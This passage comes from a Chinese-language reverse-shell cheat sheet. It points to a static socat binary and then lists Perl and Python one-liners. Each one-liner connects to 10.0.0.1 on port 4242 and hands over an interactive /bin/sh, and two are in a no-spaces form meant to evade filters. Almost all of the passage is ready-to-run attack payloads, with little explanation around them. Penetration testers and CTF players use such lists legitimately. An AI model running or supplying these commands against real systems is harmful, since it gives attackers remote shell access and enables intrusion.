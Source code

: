 静态 socat 二进制文件可以在 [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)找到

### Perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'


注意：仅限windows
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Python

仅限linux

IPv4

```python
export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

```python
python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

IPv4 (无空格)

```python
python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```python
python -c 'socket=__import__("socket");subprocess=__import__("subprocess");os=__import__("os");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
